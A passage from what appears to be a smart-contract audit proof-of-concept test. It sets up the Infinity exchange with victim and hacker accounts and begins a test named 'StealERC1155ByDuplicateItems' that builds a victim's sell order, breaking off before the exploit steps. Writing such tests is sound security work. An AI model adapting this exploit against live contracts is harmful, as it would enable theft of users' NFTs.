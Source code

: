 ```js
    // OB complication
    obComplication = await deployContract(
      'InfinityOrderBookComplication',
      await ethers.getContractFactory('InfinityOrderBookComplication'),
      dev
    );

    // add currencies to registry
    await infinityExchange.addCurrency(token.address);
    await infinityExchange.addCurrency(NULL_ADDRESS);

    // add complications to registry
    await infinityExchange.addComplication(obComplication.address);

    // send assets
    await token.transfer(victim.address, INITIAL_SUPPLY.div(4).toString());
    await token.transfer(hacker.address, INITIAL_SUPPLY.div(4).toString());
    for (let i = 0; i < numNFTsToTransfer; i++) {
      await mock1155Contract1.mint(victim.address, i, 50, '0x');
      await mock1155Contract2.mint(victim.address, i, 50, '0x');
    }
  });

  describe('StealERC1155ByDuplicateItems', () => {
    it('Passed test denotes successful hack', async function () {
      // prepare order
      const user = {
        address: victim.address
      };
      const chainId = network.config.chainId ?? 31337;
      const nfts = [
        {
          collection: mock1155Contract1.address,
          tokens: [{ tokenId: 0, numTokens: 1 }]
        },
        {
          collection: mock1155Contract2.address,
          tokens: [{ tokenId: 0, numTokens: 1 }]
        }
      ];
      const execParams = { complicationAddress: obComplication.address, currencyAddress: token.address };
      const extraParams = {};
      const nonce = ++orderNonce;
      const orderId = ethers.utils.solidityKeccak256(['address', 'uint256', 'uint256'], [user.address, nonce, chainId]);
      let numItems = 0;
      for (const nft of nfts) {
        numItems += nft.tokens.length;
      }
      const order = {
        id: orderId,
        chainId,
        isSellOrder: true,
        signerAddress: user.address,
        numItems,
        startPrice: ethers.utils.parseEther('1'),
        endPrice: ethers.utils.parseEther('1'),
        startTime: nowSeconds(),
        endTime: nowSeconds().add(10 * 60),
        nonce,
        nfts,
        execParams,
```